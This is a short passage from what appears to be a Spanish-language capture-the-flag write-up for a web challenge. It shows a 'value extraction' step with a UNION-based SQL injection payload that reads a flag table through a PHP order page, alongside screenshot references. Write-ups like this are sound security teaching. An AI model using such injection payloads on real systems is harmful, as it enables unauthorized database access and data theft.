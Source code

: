 ![Columnas de tabla](images/web_tacos_chano_5.png)

5. Extracción de valores.

```text
/orden.php?id=1 UNION SELECT (SELECT * FROM flag),'a','a'-- -
```

![Extracción de valores](images/web_tacos_chano_6.png)
